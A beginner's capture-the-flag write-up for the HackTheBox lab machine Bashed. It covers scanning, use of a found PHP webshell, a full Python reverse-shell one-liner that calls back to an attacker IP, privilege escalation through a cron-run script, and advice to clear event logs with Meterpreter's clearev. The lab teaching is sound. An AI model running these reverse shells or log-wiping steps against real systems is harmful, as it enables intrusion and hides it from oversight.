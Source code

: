 [Back to Main Page](../index.html) 

# Bashed on HackTheBox


![htb](https://www.yeahhub.com/wp-content/uploads/2018/03/hackthebox.png)



## Introduction

Bashed is a beginner's box which was the second CTF I ever attempted. When I tried it, I had booted up Kali and knew that a couple tools existed, but did not have any strategies, context or experience. 

This write up assumes that the reader is using Kali, but any pentesting distro such as [BlackArch](https://blackarch.org/) will work. The tools come with a stock Kali installation, unless otherwise mentioned.

## 1. Initial Scanning

All we do have is an IP so we start to run a nmap scan.

`nmap 10.10.10.68`

![1nmap](https://i.imgur.com/fyklCXk.png)

nmap did find TCP port 80.

Kali catogorizes most of the HTTP tools under "Web Application Analysis," so I took a peek and tried to get one of them working. I found the most useful starting commands for a website CTF is `nikto`

`nikto -h http://10.10.10.68:80`

Our `-h` flag tells nikto the location of our target. 

![1nikto](https://i.imgur.com/h1r2hqi.png)

Nikto shows us many intersting directories - one of them being /dev/. So I connected on it and found those .php scripts.

![2nikto](https://i.imgur.com/tupNPIp.png)


## 2. Using the found scripts to get access

The phpbash.py script is php based webshell, which allows us to set up a reverse shell. 
![1bashed](https://i.imgur.com/NUbWsT4.png)

First we create an netcat listener on our local kali machine.
`nc -lvnp 249`

Then I tried to create a normal connection, which got refused as there is no `nc -e`option on the machine.   
I found a python reverse shell in the web, which I executed with my options.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",249));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

![2bashed](https://i.imgur.com/SdTGlj9.png)

Python worked as expected. After scanning the files I found a user called scriptuser, so I executed the same command with `sudo -u scriptmanager ....` and got access as scriptmanager.

![3bashed](https://i.imgur.com/99Jd661.png)

Now I had access to the before found /script/ path. There I found another python script, which just echos a hello world.

![4bashed](https://i.imgur.com/vO4mImP.png)

The script appeared to run sometimes, so I just created my own one in the same folder via port 2493 to get access as root.

`cat > file.py`

![5bashed](https://i.imgur.com/1ZGLawt.png)

After waiting a minute or so, port 2493 listener connected to the machine.

![6bashed](https://i.imgur.com/aRauVQP.png)

And there we go, the connection as root!
Now we finished by capturing the flag!

![7bashed](https://i.imgur.com/mR7HorY.png)


## 5. Cleanup
 
Since this is a CTF, cleanup isn’t mandatory.
However, we want to develop good habits and operational security practice. Meterpreter has a `clearev` command that can be used to cover our tracks - let’s run it and be out of here.

![hacked](https://cdn-images-1.medium.com/max/1600/1*TtuBByJ52bSP-d2WPOczJg.png)
